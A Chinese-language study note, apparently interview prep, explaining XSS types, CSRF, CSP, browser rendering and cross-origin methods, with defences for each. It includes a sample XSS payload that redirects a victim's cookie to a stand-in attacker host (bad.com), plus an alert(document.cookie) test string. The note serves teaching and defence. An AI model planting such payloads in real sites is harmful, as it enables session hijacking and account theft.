 1、XSS (Cross Site Scripting)，跨站脚本攻击。为了和层叠样式表(Cascading Style Sheets，CSS)区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。XSS 是常见的 Web 攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被 OWASP 列为当前的头号 Web 安全威胁。
举一个简单的例子##
在 a.com 的搜索输入框中输入如下内容，并提交请求
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
如果前端没有进行过滤，浏览器地址可能变为：
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
此时，用户的 cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 cookie 信息来伪造用户身份，进行多种恶意非法操作。
XSS 攻击类型一般分为三种：
1、反射型 XSS
反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。
2、储存型 XSS
存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。
3、DOM Based XSS
基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击。
防范 XSS
对于 XSS 攻击，我们可以做如下防范：
1、输入过滤。永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符进行过滤或者转义处理，然后再存储到数据库中。
2、输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，输出到页面脚本代码中，可以相应进行 Javascript encode 处理。
3、HttpOnly Cookie。预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
4、WAF(Web Application Firewall)，Web 应用防火墙，主要的功能是防范诸如网页木马、XSS 以及 CSRF 等常见的 Web 漏洞攻击。由第三方公司开发，在企业环境中深受欢迎。

CSRF
CSRF (Cross Site Request Forgery)，即跨站请求伪造。简单的理解是，攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。
举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中发送本地保存的 cookie 到网址 A，A 网站收到 cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。

防范 CSRF
对于 CSRF 攻击，我们可以做如下防范：
1、验证码。应用程序和用户进行交互过程中，特别是账户交易这种核心步骤，强制用户输入验证码，才能完成最终请求。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。
2、Referer Check。HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 Referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。
3、Anti CSRF Token。目前比较完善的解决方案是加入 Anti-CSRF-Token，即发送请求时在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器建立一个拦截器来验证这个 token。服务器读取浏览器当前域 cookie 中这个 token 值，会进行校验该请求当中的 token 和 cookie 当中的 token 值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。

CSP(内容安全策略)

CSP(Content Security Policy) 即内容安全策略，主要目标是减少、并有效报告 XSS 攻击，其实质就是让开发者定制一份白名单，告诉浏览器允许加载、执行的外部资源。即使攻击者能够发现可从中注入脚本的漏洞，由于脚本不在白名单之列，浏览器也不会执行该脚本，从而达到了降低客户端遭受 XSS 攻击风险和影响的目的。
默认配置下，CSP 甚至不允许执行内联代码 (<script> 块内容，内联事件，内联样式)，以及禁止执行eval(), setTimeout 和 setInterval。为什么要这么做呢？因为制定来源白名单依旧无法解决 XSS 攻击的最大威胁：内联脚本注入。浏览器无法区分合法内联脚本与恶意注入的脚本，所以通过默认禁止内联脚本来有效解决这个问题。
事实上我们并不推荐使用内联脚本混合的开发方式，使用外部资源，浏览器更容易缓存，对开发者也容易阅读理解，并且有助于编译和压缩。当然，如果不得不需要内联脚本和样式，可以通过设置 unsafe-inline，来解除这一限制。

XSS(Cross Site Scripting)是跨站脚本攻击，为了区分CSS，所以缩写为XSS。XSS攻击方式是往Web页面插入恶意的 JavaScript 代码，当用户浏览网页的时候，插入的代码就是被执行，从而达到攻击的目的。
其中应用比较多的一个就是，在网页一些公用的交互区域。比如搜索的文本框，除了可以输入一些关键字，还可以输入一些 JavaScript 代码，一旦代码点击搜索，代码就会被执行，达到攻击的目的。如下例子
<script>alert(document.cookie);</script>

在文本框中输入以上代码，然后点击提交，就会把用户的cookie弹出来。
XSS防范
1.将重要的cookies标记为HTTP ONLY，让JavaScript代码无法调用，只有http能调用。或者将重要的信息保存在session里面。
2.只允许用户输入我们期望的数据。如消费金额框只能输入数字和小数点。
3.对数据进行加密处理。
4.过滤或者移除特殊的HTML标签，过滤JavaScript代码等。
2、CSRF（Cross-site request forgery）是跨站请求伪造。XSS利用站点内的信任用户，与XSS不同，CSRF是通过伪装来自受信任用户，在受信任的网站进行请求，盗取信息。其实就是攻击者盗用了受害者的身份，以受害者的名义向网站发送恶意请求。

CSRF的防御
1.在表单里增加Hash值，以认证这确实是用户发送的请求，然后在服务器端进行Hash值验证。
2.验证码：每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。
3.修改，增加重要信息，比如密码，个人信息的操作，尽量使用post。避免使用get把信息暴露在url上面。
5.渲染过程，原理
1.浏览器通过DNS对URL进行解析，找出对应的IP地址；
2.向IP地址发起网络请求，进行http协议会话：客户端发送报头（请求报头），服务端回馈报头（响应报头）
3.服务器根据请求，交给后台处理，处理完成后返回文件数据，浏览器接收文件数据（HTML、JS、CSS、图象等）；返回一个页面（根据页面上的外链的URL重新发送请求获取）
4.浏览器接收文件完毕，对加载到的资源进行语法解析，以及相应的内部数据结构（网页渲染）
跨域
1、 jsonp
2、 document.domain + iframe
3、 location.hash + iframe
4、 window.name + iframe
5、 postMessage
6、 跨域资源共享（CORS）
7、 nginx代理
8、 nodejs中间件代理
9、 WebSocket协议

